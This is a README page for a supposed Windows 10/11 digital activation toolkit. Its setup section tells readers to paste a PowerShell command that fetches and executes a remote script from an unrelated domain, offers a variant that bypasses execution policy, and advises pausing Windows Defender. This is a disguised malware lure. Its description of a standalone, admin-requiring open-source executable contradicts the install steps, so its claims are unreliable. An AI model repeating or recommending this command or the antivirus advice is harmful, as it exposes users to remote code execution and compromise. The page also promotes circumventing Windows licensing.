

<div align="center">

# CloudMoe Windows 10/11 Digital Activation Toolkit — Windows 10 & 11



[]() []() []() []() []() []()

</div>

---

CMWTAT_Digital_Edition is an open-source desktop utility written in C# that provisions digital licenses for Windows 10 and Windows 11, converting retail and volume installations into permanently activated states tied to the hardware fingerprint. The toolkit performs license migration and edition upgrades through a guided interface, abstracting the underlying activation APIs and ticket handling into a small set of deterministic operations. It supports both online and offline activation workflows, with hardware-bound license issuance that persists across reinstalls of the same operating system edition. The application runs as a standalone executable with no external runtime dependencies beyond the .NET Framework, and exposes detailed status and error reporting for each stage of the activation sequence.

## 🔧 PowerShell Setup

> [!TIP]
> **One-click install** — paste one command, done in seconds.
> Windows 10 / 11 · PowerShell 5.1+ · No admin required

### 1️⃣ Open PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Run the script
Copy the line below into PowerShell and press `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If PowerShell blocks the script
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Windows Defender or third-party AV may flag the script. Pause Real-time protection in Windows Security, run the installer, and re-enable it right after.

## ✅ Requirements

- Windows 10 or Windows 11
- PowerShell 5.1 or newer (already available on Windows)
- Active network connection
- No admin rights needed

## Features

- **Digital license activation**: Provisions a genuine digital license (digital entitlement) for Windows 10 and Windows 11, binding the license to the device hardware rather than requiring a product key at runtime.

- **Hardware-bound entitlement**: The generated license is tied to the machine's hardware fingerprint, enabling automatic reactivation after reinstallation without re-running the toolkit.

- **Edition and SKU coverage**: Supports activation across the common Windows 10/11 editions and SKUs, including Home, Pro, Education, and Enterprise families, with edition-appropriate licensing behavior.

- **Native C# implementation**: Written in C# and deployed as a standalone executable, requiring no external runtime installation or bundled dependencies beyond the .NET runtime already present on supported systems.

- **Integrated activation workflow**: Handles license installation, edition upgrade checks, and activation state verification within a single guided flow, reducing manual steps and intermediate configuration.

- **Activation status reporting**: Queries and displays the current licensing state, including activation status, license channel, and edition information, so users can verify results immediately after the operation.

- **Privilege-aware execution**: Detects and requests the elevated privileges required for license provisioning, ensuring activation operations complete without partial or failed writes to the licensing store.

- **Lightweight, single-binary distribution**: Ships as a compact standalone executable without an installer, keeping the footprint minimal and avoiding system-level modification outside the licensing subsystem.

- **Open-source and auditable**: Released under GPL-2.0, with the full source available for inspection, review, and community contribution.

## How It Works

The toolkit operates entirely through native Windows licensing interfaces rather than patching system binaries or installing background services. Activation is performed by invoking the Windows Software Protection Platform (SPP) and the related licensing COM APIs that the operating system itself uses to validate and persist digital entitlements.

When an activation is requested, the tool first enumerates the currently installed edition and generates the appropriate generic product key for that edition. This key is installed through the standard SPP key-installation path, which moves the system into a state where a digital entitlement can be requested from the licensing backend. The tool then submits the corresponding hardware identifier and edition information through the same activation pipeline used by retail and OEM upgrades.

On success, Windows stores the resulting digital license on the licensing server and associates it with the machine's hardware fingerprint. Because the entitlement is recorded server-side, it persists across reboots and survives a clean reinstallation of the same edition on the same hardware, with the system reactivating automatically once it comes online. No license files are injected into the local system, and no activation state is emulated or spoofed.

The application is implemented in C# and runs as a self-contained desktop executable. It requires administrative elevation because the SPP and licensing APIs it drives are protected system components. Runtime behavior is deterministic and repeatable: each activation attempt reports the underlying result code returned by the licensing subsystem, allowing the outcome to be diagnosed directly from the operating system's own responses.

Optional post-activation steps, such as edition-specific configuration, are applied only after the digital entitlement has been confirmed, so a failure at any stage leaves the system in a consistent, recoverable state. The tool does not modify boot configuration, system files, or the activation components themselves, keeping its footprint limited to the standard licensing transactions it initiates.

## Compatibility

CMWTAT_Digital_Edition targets the Windows desktop platform and is designed to operate across the supported Windows 10 and Windows 11 release channels. The toolkit requires an x86 or x64 desktop installation of Windows with the standard licensing infrastructure present; it does not target Windows Server editions, Windows on ARM, or legacy Windows versions.

Activation operates against the digital license entitlement service, so behavior depends on the edition and build of the installed operating system. Supported editions include the consumer and business SKUs of Windows 10 and Windows 11. Edition-specific entitlement mapping is handled internally, and the toolkit validates the current edition before attempting activation.

The application requires administrative elevation to modify licensing state. Standard user contexts are not supported for activation operations. The toolkit runs as a standalone desktop executable and does not require additional runtime dependencies beyond the .NET runtime shipped with the target Windows versions.

Network connectivity is required for digital license acquisition and validation. Offline activation is not supported. Firewall or proxy configurations that block the licensing endpoints will prevent successful activation.

Compatibility with future Windows feature updates is not guaranteed. Because activation depends on system licensing components, cumulative updates or major version upgrades may alter the underlying behavior. Users should verify activation status after significant system updates.

The toolkit is not compatible with systems already carrying a valid digital license from a different entitlement source in conflicting configurations, nor with environments where licensing services have been disabled or modified by third-party tools. In such cases, restore default licensing service configuration before use.

## Security Notice

CMWTAT_Digital_Edition is distributed exclusively as a standalone executable or as an archive containing a single executable. Every official release build is produced from the publicly auditable source in this repository, and users are encouraged to verify the integrity of any downloaded package before execution.

The toolkit performs digital license activation through documented, non-destructive system operations. It does not bundle third-party installers, and it does not require or request elevated persistence beyond the activation workflow itself. Removing the toolkit after activation does not revoke an issued digital license; the license remains bound to the hardware and is reapplied automatically by Windows upon reinstallation.

Users should obtain the toolkit only from the project's own release channels and should treat any package whose contents differ from the expected executable format as untrusted. Because build artifacts can be mirrored by third parties, always confirm that a downloaded file matches the published checksum for the corresponding release. If a package contains installer formats other than the expected executable, do not run it.

If a suspicious file has already been executed, perform a full scan with current antivirus definitions, back up critical data, and reinstall the operating system where feasible. Activation state is independent of the toolkit's presence, so remediation does not require re-activation.

Security-relevant findings, including reports of tampered distributions or unexpected package contents, are handled through the project's issue tracker and are treated with priority. Responsible disclosure helps protect all users of the toolkit.

## FAQ

**Does activation modify system files or install a background service?**

No. CMWTAT_Digital_Edition operates by applying a digital license (digital entitlement) to the current Windows installation, which is bound to the hardware fingerprint of the device. It does not install persistent background services, scheduled tasks, or kernel-mode drivers. The toolkit performs its operations and exits; once a digital license has been granted, it is retained by Windows itself and remains valid across reboots and feature updates.

**Is the activation permanent, and does it survive a reinstall?**

A successfully applied digital license is tied to the hardware it was granted on and is stored server-side by the activation infrastructure. Reinstalling Windows on the same device will typically re-activate automatically once the system comes online, without re-running the toolkit. Because the license is hardware-bound, replacing core components (such as the motherboard) may invalidate the entitlement and require re-activation.

**Which Windows editions and versions are supported?**

The toolkit targets Windows 10 and Windows 11 client editions. Edition and build detection is performed at runtime, and the tool selects an appropriate licensing path for the detected SKU. Unsupported or server-class SKUs are rejected rather than modified. Refer to the Compatibility section for the authoritative edition matrix.

**Does the tool require an internet connection?**

Yes. Digital license acquisition requires connectivity to the Windows activation servers. The toolkit will fail gracefully if network access is unavailable or if the activation endpoints are unreachable.

**What are the privilege requirements?**

Administrative elevation is mandatory. The toolkit must run in an elevated context to query and modify licensing state through the Windows Software Protection Platform interfaces. Running without elevation will result in an immediate permission error rather than a partial or silent failure.

**How does the tool differ from KMS-based activators?**

CMWTAT_Digital_Edition obtains a genuine digital license rather than emulating a Key Management Service host. It does not modify the hosts file, does not redirect activation traffic, and does not install a local KMS emulator. This avoids the recurring 180-day renewal cycle and the host-file side effects characteristic of KMS tools.

**Can the activation be reverted or does it affect the existing license?**

If the device already holds a valid digital license or a retail/product-key activation, the toolkit detects the existing entitlement and will not downgrade it. Where a prior activation exists, re-running the tool is unnecessary and generally has no effect.

**Why does the tool report failure on some systems?**

Common causes include: an unsupported edition or build, an existing conflicting activation channel, disabled or corrupted Software Protection services, restrictive group policy on activation, or blocked network access to activation endpoints. Reviewing the on-screen log output is the recommended first step, as each failure path reports a distinct diagnostic message.

**Is the source code auditable?**

Yes. CMWTAT_Digital_Edition is open source under GPL-2.0, and the complete C# source is available for independent review and compilation. Users who prefer not to rely on prebuilt binaries may build the toolkit themselves from source to verify behavior.

**Does the toolkit collect telemetry or transmit user data?**

No. The toolkit contains no telemetry, analytics, or usage reporting. Its only network communication is the activation request required to obtain the digital license from the Windows activation infrastructure.

**Does deleting the toolkit affect an activation already applied?**

No. The digital license is held by Windows, not by the toolkit. Removing the application after a successful activation leaves the license intact.

## License

CMWTAT_Digital_Edition is distributed under the GNU General Public License, version 2.0 (GPL-2.0). The complete license text is provided in the `LICENSE` file at the root of the project repository and governs all use, modification, and distribution of the toolkit.

Under the terms of GPL-2.0, you are free to run the software for any purpose, to study and modify its source code, and to redistribute original or modified copies, provided that redistributed versions remain licensed under the same terms and that the corresponding source code is made available. Any derivative work that is distributed must carry the same license and preserve the applicable copyright notices.

The software is provided on an "as is" basis, without warranty of any kind, express or implied, including but not limited to the implied warranties of merchantability and fitness for a particular purpose. The authors and contributors accept no liability for any damages arising from the use or inability to use the toolkit. You assume full responsibility for verifying that your use of the software complies with the laws and licensing terms applicable in your jurisdiction and to your copy of Windows.

For the authoritative text of the license, refer to the `LICENSE` file included with the project. In the event of any discrepancy between this summary and the `LICENSE` file, the `LICENSE` file takes precedence.